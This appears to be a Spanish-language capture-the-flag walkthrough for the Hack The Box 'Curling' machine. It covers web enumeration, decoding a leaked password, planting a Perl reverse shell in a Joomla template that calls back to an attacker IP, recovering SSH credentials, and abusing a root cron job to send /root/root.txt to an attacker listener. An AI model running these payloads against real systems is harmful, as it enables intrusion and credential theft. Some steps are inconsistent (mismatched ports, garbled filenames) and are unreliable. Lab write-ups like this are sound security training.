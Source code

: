 ## HTB-Curling
- Maquina: **Linux**
- Level: **Easy**
- IP: **10.10.10.150**

## Herramientas a utilizar:
- nmap
- wfuzz
- curl
- bzip2
- zcat
- nc

#### Fase 1: Enumeracion
```
nmap -sC -sV -o scan_curling.txt 10.10.10.150
```

Aqui encontraremos los siguientes puertos:
|PORT|SERVICE|VERSION|
|---|---|---|
|22| SSH OpenSSH| 7.6p1 Ubuntu 4
|80| HTTP Apache| httpd 2.4.29

Ahora haremos un reconocimiento a nivel web con `wfuzz`
```
wfuzz -c -w /usr/share/dirb/wordlists/common.txt -z list,-.php-.html-.txt --hc 404,403 http://10.10.10.150/FUZZFUZ2Z
```

Entre la busqueda podemos notar que encontramos

http://10.10.10.150/administrator/ **Este el cpanel de joolam**
Tambien encontramos:
http://10.10.10.150/**secret.txt**
Este archivo contiene la siguiente clave de acceso `Q3VybGluZzIwMTgh`

Esta se encuentra encryptada en base64 por lo que debemos crackear.
```
echo Q3VybGluZzIwMTgh | base64 -d
```
Y Ahora tenemos la credenciales `Curling2018!`

Volvemo a `http://10.10.10.150/` Veremos que el primer post dice que fue **Floris** y en este se encuentra casi igualita la credenciales que acabamos de encontrar. 🤣

Por lo que intentaremos utilizar el **user: floris pass: Curling2018!** en la siguiente direccion 
```
http://10.10.10.150/administrator/
```

Ahora iremos a **Extensions -> Templates -> Templates** aqui utilizaremos el primer Template y sustituimos por:
```
perl -e ‘use Socket;$i=”10.0.14.14″;$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname(“tcp”));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,”>&S”);open(STDOUT,”>&S”);open(STDERR,”>&S”);exec(“/bin/sh -i”);};’
```
Grabamos,  Luego nos ponemos en modo escucha por el puerto 44444
```
nc -nlvp 44444
```
Volvemos a la web y ejecutamos `Template Preview` y listo tenemos nuestra shell
Para migrarla a una shell interativa haremos lo siguiente pasos.
```
python3 -c "import pty;pty.spawn('/bin/bash')"
Crtl-Z
stty raw -echo
reset
fg
export TERM=screen
Ahora debemos buscar cual es ancho de nuestra terminal
stty size
Volvemos a nuestra shell y ejecutamos
stty rows 27 cols 90
```

En `cd /home/floris` aqui encontraremos `user.txt` y `password_backup`
Como no podemos abrir `user.txt`, copiaremos `password_backup` en /tmp/
```
cp password_backup /tmp/.
```
Nos movemos a tmp
```
cd /tmp/
cat password_backup |xxd-r > password.xxd
```
Verificamos el tipo de archivo:
```
file password.xdd 
```
```
bzip2 -d password.xxd > password
zcat password.bzip2.out <enter>
zcat password.bzip2.out | bzcat <enter>
zcat password.bzip2.out | bzcat | tar -xO <enter> 
5d<wdCbdZu)|hChXll
```

Con estas credenciales podemos iniciar session en curling via ssh con **user: floris pass: 5d<wdCbdZu)|hChXll**
```
ssh floris@10.10.10.150
```
Aqui ya tendriamos la Flag del user

Ahora nos moveremos al directorio llamada `admin-data` y vermos dos archivo **input**, **report**.
si nos fijamos en la fecha de crecion de los archivo, notaran que ambos cambian cada un minuto, lo que significa que existe un crontab.

Verificamos si estos archivo se estan cambiando con alguna tarea programada con el usuario `floris`
```
crontab -e 
```
Pero para simplicar las cosas. lo que tendremos que hacer es lo siguiente
###### Paso 1 
Nos ponemos en escucha por el puerto `80`
```
nc -nlvpn 80
```
###### Paso 2
Desde Curling creamos el siguiente archivo, con nuesta ip de la vpn-htb en mi caso fue `10.10.14.16`
```
vi input
url = "http://10.10.14.16"
data="@/root/root.txt"
```
###### Paso 3
Volvemos a conectarnos a Curling via ssh 
```
root@10.10.10.150
```

Y listo deberiamos tener la flag del root.